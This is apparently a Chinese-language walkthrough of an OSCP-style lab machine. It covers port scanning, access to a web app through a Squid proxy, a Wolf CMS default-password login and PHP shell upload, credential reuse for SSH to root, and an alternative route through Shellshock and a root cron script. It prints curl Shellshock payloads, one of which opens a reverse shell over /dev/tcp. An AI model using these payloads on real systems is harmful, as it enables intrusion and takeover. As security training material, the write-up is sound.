# 靶机描述

_这是一台标榜难度为简单的开源靶机。作者在描述中点明这是一台类似 OSCP 风格的靶机。我们的目标是获取 root 权限，并且读取目录下面的文件。_



# 信息收集

1. 主机发现
本地 kali 的 IP 是 192.168.2.47。目标的 IP 为 192.168.2.50 。

2. 端口扫描

nmap 使用 TCP 全连接模式，并且以不低于 10000 个包的速度扫描目标端口。
```text
Nmap scan report for 192.168.2.50
Host is up (0.010s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
3128/tcp open   squid-http
8080/tcp closed http-proxy
MAC Address: 00:0C:29:40:31:3F (VMware)
```

接下来使用 nmap 的默认脚本扫描，探测指定端口的服务版本。

```text
# Nmap 7.99 scan initiated Mon Aug 10 09:39:59 2026 as: /usr/lib/nmap/nmap -sT -sV -sC -O -p22,3128 -oA nmapscan/details 192.168.2.50
Nmap scan report for 192.168.2.50
Host is up (0.0013s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open  http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 00:0C:29:40:31:3F (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (93%), Linux 3.13 - 4.4 (93%), Linux 3.16 - 4.6 (93%), Linux 3.2 - 4.14 (93%), Linux 3.8 - 3.16 (93%), Linux 4.4 (93%), Linux 3.13 (90%), Linux 3.18 (89%), Linux 4.2 (87%), Linux 3.13 - 3.16 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

可见目标开放了 22，3128 端口。

3. 漏洞脚本扫描

```text
# Nmap 7.99 scan initiated Mon Aug 10 09:59:08 2026 as: /usr/lib/nmap/nmap --script=vuln -p22,3128 -oA nmapscan/vulns 192.168.2.50
Nmap scan report for 192.168.2.50
Host is up (0.00050s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
3128/tcp open  squid-http
MAC Address: 00:0C:29:40:31:3F (VMware)
```

漏洞脚本扫描并没有扫描到任何可以直接利用的漏洞。

# WEB 渗透

我们根据 nmap 详细扫描的结果加上维基百科的讲解，判断这个 squid-http 是一个网站服务器代理程序。通过 Google 搜索 squid-http 可以发现许多结果。我们从中筛选出一篇符合我们当前需求并且内容为“搭建测试 squid ”的文章。





文件中告诉我们可以使用 curl 这个工具的 proxy 参数使用代理的 3128 端口，访问 WEB 页面。




访问成功


但是这个 BLEHHH!!! 并不是资源目录路径。为了获得更多资源路径，我们使用目标爆破工具进行枚举。



目录爆破枚举出了许多文件信息。我们最感兴趣的是 robots 文件。发现 robots 文件泄露了一个 CMS 的地址。



我们简单访问，发现了一个私人站点。



简单浏览后，发现可交互的地方并不多。大部分是静态页面。考虑到这个 wolf CMS 是开源的，可能存在一些公开漏洞利用。我们可以借助 searchsploit 和 Google 工具进行查找公开利用漏洞脚本。
结果很多，我们需要知道这个 CMS 的版本信息。



前面目录爆破中，暴漏了一个归档信息文件。这里我查阅了 wolf cms的官方归档格式，发现 => 所指的就是当前 cms 版本。因此我可以确信 0.8.2 就是当前 cms 服务版本。那么 searchspolit 结果中的 0.8.2~0.8.3 版本非常值得我们关注了。



通过查看 44421.txt 文件，我发现当前站点后段的管理员登录界面。





比起这个登录界面，之前结果中的任意文件上传漏洞，我们更应该好好考虑一下。这里的 36818.php 提到了进行认证后的用户可以提交任意文件上传。我们意识到这个登录界面我们应该先进行测试，否则我们没法使用文件上传这一功能。



那会有啥缺陷呢？我们可以说尝试一下弱口令。先随便输一个密码，获得其报错信息。然后交给 hydra 进行字典爆破。
我们首先尝试了一下 admin:admin 就成功了。_(真正的流程应该是先 Google 搜索这个 wolfCMS 的默认用户名和默认密码。但是笔者就是抱着随便尝试的心态，没想到直接进入后台了。)_





在之前漏洞利用的脚本搜索时，我下载了一个 51421.txt 文件。这个文件告诉我们可以通过 file 按钮编辑创建自己的文件，最后可以在 public 目录找到我们自己的文件。前面目录爆破中，爆破出来了一个 public 目录。我们可以更加确信，这个方向是对的。

![[KALI2026.2-2026-08-12-15-00-49.png]]

# 获得立足点

创建编辑我们的 shell.php 文件。


访问触发解析我们的 php 文件。

成功回连。


# 权限提升

之前目录爆破中，爆破出了一个文件 config.php。这个文件名，给人直观的感受是，管理 CMS 连接数据配置的文件。里面很可能有用户凭据。



我们发现了数据库的用户和密码。我们可以尝试用这个凭据去碰撞 ssh 登录凭据。经过目录浏览，发现了 sickos 用户的家目录。我们成功登录这个 sickos 用户。



发现该用户有完整的 root 权限。直接提权到 root 用户。



获得 root 目录下的 flag




# 解法二 ShellShock 漏洞利用

看了红笔视频发现，还可以进行 shellshock 获得立足点。只不过，视频中，师傅使用 nikto 工具探测到 apache 存在 shellshock 漏洞。但是我复现的时候，使用的是最新的 nikto 工具版本，并没有扫描到这个漏洞。

```nikto
- Nikto v2.6.0/
+ Target Host: 192.168.2.50
+ Target Port: 80
+ GET /: Retrieved via header: 1.0 localhost (squid/3.1.19).
+ GET /: Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.21.
+ GET /: Uncommon header(s) 'x-cache-lookup' found, with contents: MISS from localhost:3128.
+ GET /robots.txt: Server may leak inodes via ETags, header found with file /robots.txt, inode: 265381, size: 45, mtime: Sat Dec  5 08:35:02 2015. See: CVE-2003-1418: 
+ GET /index: Uncommon header(s) 'tcn' found, with contents: list.
+ GET /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.php. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275: 
+ GET /: Server banner changed from 'Apache/2.2.22 (Ubuntu)' to 'squid/3.1.19'.
+ GET /: Uncommon header(s) 'x-squid-error' found, with contents: ERR_INVALID_URL 0.
+ GET /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security: 
+ GET /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy: 
+ GET /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy: 
+ GET /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP: 
+ GET /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options: 
+ HEAD PHP/5.3.10-1ubuntu3.21 appears to be outdated (current is at least 8.5.1).
+ HEAD Apache/2.2.22 appears to be outdated (current is at least 2.4.66).
+ VQIKZHOY /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ GET /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP Easter Eggs reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/: 
+ GET /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/: 
+ GET /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/: 
+ GET /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP Easter Egg reveals potentially sensitive information via HTTP requests that contain specific QUERY strings. See: https://labs.detectify.com/writeups/do-you-dare-to-show-your-php-easter-egg/: 
+ GET /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/: 
+ GET /: X-Frame-Options header is deprecated and was replaced with the Content-Security-Policy HTTP header with the frame-ancestors directive. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Frame-Options: 
+ GET /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/: 
```

不过师傅说 apache 版本过低，都会存在这个漏洞。那么我们就继续以这个思路来利用这个漏洞。
我们先通过搜索引擎了解一下这个 Shellshock 漏洞。
我个人认为下面这篇博客符合我当前的需求。

[https://ine.com/blog/shockin-shells-shellshock-cve-2014-6271](https://ine.com/blog/shockin-shells-shellshock-cve-2014-6271)

其实是 cgi 程序会把请求头的内容当作环境变量的参数。而当程序碰到 '(){' 这样的字符串 ，就会提前传递给 bash 解释器。而 bash 解释器会把传递过来的整个内容解释执行。文章也说了这个功能本意是为了让 WEB 程序使用外部脚本，所以如果网站路由可以执行 bash 脚本，或者其他语言脚本中，有调用系统解释器 _(比如 bash)_ 的部分，那么就很容易执行任意命令。



而触发的解析过程，类似与父进程传递参数给子进程。这里是关于核心原理的描述。



我们通过访问这个 /cgi-bin/status 页面发现，这个 status 文件很肯是个 bash 脚本。这里的 kernel 参数很像是我们 使用 uname -a 参数获得的系统信息。所以，我们可以确定这里就是漏洞点。



构造 payload
```shell

curl -v http://192.168.2.50/cgi-bin/status --proxy http://192.168.2.50:3128 -H "Referer:() { test;}; echo 'Content-Type: text/plain';echo;echo;/usr/bin/id;exit"
# 测试漏洞

curl -v http://192.168.2.50/cgi-bin/status --proxy http://192.168.2.50:3128 -H "Referer:() { :;};0<&198-;exec 198<>/dev/tcp/192.168.2.47/5566;/bin/sh <&198 >&198 2>&198"
# 漏洞利用回弹shell

```




# 获得立足点 解法二



这里的 msfvenom 工具可以生成各种反弹 shell。也是许多网页版工具的基础原理。



通过权限枚举，发现有个 connect.py 的文件很让我们感兴趣。它说，它总是频繁的连接东西，可以尝试一下他的服务。这给了我们启发，很肯暗指 crontab 定时任务。通过访问，我们发现这台服务器每分钟总以 root 权限执行这个 connect.py 脚本文件。



往 connect.py 中写入 python 反弹 shell 到 4444 端口。成功提权到 root 用户。





到此，成功拿下这台靶机。

# 总结

我们通过端口扫描发现目标开放了 22，3128 端口。根据优先级，我们先测试 3128 服务。通过搜索引擎，知道代理服务的测试逻辑。通过常规 WEB 渗透手段，发现 wolf cms 的后台登录界面。通过文件上传漏洞活得立足点。在目标了爆破中，发现了 cgi-bin 文件夹，结合 apache 低版本信息。推测存在 shellshock 漏洞。通过漏洞利用活动立足点。两种方式，殊途同归。
获得立足点后，可以查看配置文件，获取敏感账号凭据，来登录 ssh进行提权。也可以通过枚举信息。发现定时任务，进行提权。这台靶机暴露的漏洞利用面非常多，可以让我们从不同角度进行尝试。